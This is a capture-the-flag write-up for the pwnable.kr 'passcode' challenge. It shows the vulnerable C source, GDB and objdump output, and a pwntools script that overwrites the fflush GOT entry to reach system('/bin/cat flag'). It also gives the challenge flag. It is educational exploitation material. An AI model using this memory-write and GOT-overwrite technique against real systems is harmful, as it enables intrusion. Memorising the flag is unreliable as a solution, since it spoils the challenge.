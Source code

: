 ```yaml
---
title: "Pwnable.kr - passcode"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/passcode.png
ribbon: red
description: "This challenge was a bit frustrating at first so let's go easy.
First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.
After that we have a call to `login()` which reads..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?




```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
		printf("Login OK!\n");
		system("/bin/cat flag");
	}
	else {
		printf("Login Failed!\n");
		exit(0);
	}
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

This challenge was a bit frustrating at first so let's go easy.

First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.

After that we have a call to `login()` which reads two integers (or it was intended to do that), then compares them with two constants and if they match we get the flag.

If you compiled this code you will get:

```
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

That's a very famous `C` warning, the code is passing the variable itself instead of a pointer to it which will cause an arbitrary memory write and might cause an access violation.

if we run the program and enter two numbers we will get a segmentation fault:

```
$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : 1
enter passcode2 : 1
Segmentation fault (core dumped)
```

The first `scanf()` for `passcode1` works just fine, we are writing to an arbitrary memory location but it somehow passed.

If only we could control where to write, we can overwrite any GOT entry with the address of the assembly instructions that calls `system("/bin/cat flag")` and we are done. 

Time for GDB:

```
gef➤  disassemble login 
Dump of assembler code for function login:
.....
   0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:	mov    DWORD PTR [esp],eax
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    eax,ds:0x804a02c
.....

gef➤  b *0x0804857c
Breakpoint 1 at 0x804857c

gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!

gef➤  x/xw $ebp-0x10
0xffffd018:	0xffffd074
```

As you can see, $ebp-0x10 which is the variable `passcode1` is pointing to `0xffffd074` (the address scanf() is writing to).

The trick of this challenge is that after a function stack frame is destroyed, the next function will start at the same base pointer:

```
 Func1
-------
| esp |
| ... |		 Func2
| ... |		-------
| ... |		| esp |
| ... |		| ... |
| ... |		| ... |
| ebp |		| ebp |		same base pointer
-------		-------				
```

Now it's time to make use of `welcome()` function, some values of the `input` array will be at the stack frame of `login()` function, we can use `pwn cyclic` to generate a pattern of 100 characters and fill the `input` array to see what happens.

```
$ pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```
gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welcome aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa!

gef➤  x/20xw $esp
0xffffd000:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd010:	0x61616177	0x61616178	0x61616179	0xac31af00
0xffffd020:	0xf7fa5000	0xf7fa5000	0xffffd048	0x08048684
0xffffd030:	0x080487f0	0x00000000	0x080486a9	0x00000000
0xffffd040:	0xf7fa5000	0xf7fa5000	0x00000000	0xf7ddafb9

gef➤  x/xw $ebp-0x10
0xffffd018:	0x61616179
```

As you can see, some values of `input` are still present in the `login()` stack frame, and also the `passcode1` variable is overwritten with these values. To know the offset of these values from the beginning of the `input` array we can use `pwn cyclic` again with the value `0x61616179` which is the string `yaaa` (remember little endianness).

```
$ pwn cyclic -l yaaa
96
```

The value of `passcode1` is overwritten by input[96] to input[99], unfortunately these are the last 4 bytes of `input` array so we cannot overwrite `passcode2` (it would be too easy).

Back to our plan, now we have the ability to write to any arbitrary memory location we want, let's overwrite some GOT entries :)

Using objdump we can get the addresses of the GOT entries:

```
$ objdump -R passcode 

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

The address of `fflush()` which is `0x0804a004` seems good, it doesn't contain any bad characters like `\x00 or \x0a`.

Now to get the address of the assembly instructions that calls `system("/bin/cat flag")`:

```
gef➤  disassemble login
.....
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
.....
```

It's at `0x080485e3`, now get have all the pieces to complete this challenge. Remember that we need to send this address as a number string not as hex values.

# Solution:

```python
# solve.py

from pwn import *

buf = ""
buf += 'A' * 96		# offset to passcode1 
buf += p32(0x0804a004)	# passcode1 pointing to fflush GOT entry
buf += str(0x080485e3)	# send as a number not an address

print(buf)
```

```
$ python /tmp/solve.py | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Flag: `Sorry mom.. I got confused about scanf usage :(`